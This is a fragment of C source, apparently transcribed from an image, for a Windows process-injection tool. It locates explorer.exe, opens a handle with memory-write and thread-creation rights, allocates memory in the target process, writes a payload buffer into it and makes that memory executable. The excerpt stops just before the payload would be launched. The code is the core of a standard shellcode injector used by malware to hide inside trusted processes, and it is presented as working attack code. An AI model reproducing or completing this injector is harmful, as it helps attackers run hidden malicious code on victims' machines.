 ```C
	if (!Process32First(hSnapshot, &pe))
	{
		printf("[ERROR] Could not enumerate processes [%d]\n", GetLastError());
		return FALSE;
	}
	
	do {
		if (0 == _wcsicmp(processName, pe.szExeFile))
		{
			pid = pe.th32ProcessID;
			printf("[!] Trying to open handle on %ls, on pid %d\n", processName, pid);

			hP = OpenProcess(PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | PROCESS_VM_OPERATION | PROCESS_VM_WRITE | PROCESS_VM_READ, FALSE, pid);
			if (hP == NULL)
			{
				printf("[X] Could not open handle on %d, continuing\n", pid);
			}
			else
			{
				printf("[+] Successfully got handle on %d\n", pid);
				*pID = pid;
				*hProcess = hP;
				return TRUE;
			}
		}
	} while (Process32Next(hSnapshot, &pe));

	CloseHandle(hSnapshot);
}


int main()
{
	HANDLE hProcess = NULL;
	DWORD pID = 0;
	LPWSTR processName = L"explorer.exe";
	DWORD oldProtect = 0;
	if (GetProcessHandle(processName, &hProcess, &pID) == FALSE)
	{
		printf("[ERROR] Could not obtain handle [%d]\n", GetLastError());
		return 99;
	}
	printf("[+] The PID of %ls is %d\n", processName, pID);

	HANDLE pAddr = VirtualAllocEx(hProcess, NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	if (pAddr == NULL)
	{
		printf("[ERROR] Could not allocate remote memory [%d]\n", GetLastError());
		return 100;
	}
	printf("[+] Successfully allocated memory at %p\n", pAddr);
	if (WriteProcessMemory(hProcess, pAddr, buf, sizeof(buf), NULL) == 0)
	{
		printf("[ERROR] Could not write to remote memory [%d]\n", GetLastError());
		return 101;
	}
	printf("[+] Successfully written payload to memory\n");
	if (VirtualProtectEx(hProcess, pAddr, sizeof(buf), PAGE_EXECUTE_READ, &oldProtect) == 0)
	{
		printf("[ERROR] Could not change the memory protection [%d]\n", GetLastError());
		return 102;
```